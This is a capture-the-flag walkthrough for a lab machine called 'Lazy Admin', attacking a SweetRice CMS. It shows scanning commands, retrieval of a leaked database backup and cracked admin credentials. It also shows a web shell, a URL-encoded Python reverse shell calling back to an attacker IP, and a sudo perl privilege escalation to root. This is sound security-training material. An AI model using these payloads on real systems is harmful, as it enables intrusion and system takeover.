





# Lazy Admin

### Active information gathering

```bash
kali@attack> echo '10.10.65.219 lazy.thm' | sudo tee -a /etc/hosts
kali@attack> nmap -p- -T4 -oN nmap-all-ports lazy.thm
kali@attack> gobuster dir -u http://lazy.thm/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

<figure><figcaption></figcaption></figure>

* When you reach the path http://lazy.thm/content/ you can see it stands SweetRice web application.
* Try to find a vulnerability with searchsploit

```bash
kali@attack> searchsploit Sweet Rice
```

<figure><figcaption></figcaption></figure>

```bash
kali@attack> searchsploit -m 40718
kali@attack> cat 40718.txt
```

* You can see there are mysql backups hidden at http://lazy.thm/content/inc/mysql\_backup.

```bash
kali@attack> curl http://lazy.thm/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql -o backup.sql
```

* In the content of this file, there are some hiddent credentials injected in the database : `manager:42f749ade7f9e195bf475f37a44cafcb`.

<figure><figcaption></figcaption></figure>

### Exploitation

* You can brute-force this hash on a web site (MD5)

<figure><figcaption></figcaption></figure>

* Go to http://lazy.thm/content/as/ and enter credentials `manager:Password123`. You gain access to the dashboard.
* Add this piece of code then click on **Done** to save your content.

<figure><figcaption></figcaption></figure>

* Now, if you try to run http://lazy.thm/content/\_themes/default/cat.php?cmd=id it returns the `www-data` user ! Yeah, you just got a web shell ! :slightly\_smiling\_face:
* On the site [HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux#python) there is a Python script you can run in place of the `id` command

```bash
kali@attack> nc -lnvp 1234
```

* Once you're listening, go to your brower and enter this url

```
http://lazy.thm/content/_themes/default/cat.php?cmd=export%20RHOST=%2210.8.150.147%22;export%20RPORT=1234;python3%20-c%20%27import%20sys,socket,os,pty;s=socket.socket();s.connect((os.getenv(%22RHOST%22),int(os.getenv(%22RPORT%22))));[os.dup2(s.fileno(),fd)%20for%20fd%20in%20(0,1,2)];pty.spawn(%22/bin/sh%22)%27
```

* You get the reverse shell on the target ! :white\_check\_mark:

### Post-exploitation

```bash
www-data@target> cat /home/itguy/user.txt
www-data@target> sudo -l
www-data@target> echo '/bin/bash' > /etc/copy.sh
www-data@target> sudo /usr/bin/perl /home/itguy/backup.pl
root@target> cat /root/root.txt
```

And you gain the `root` user ! :clown\_face:
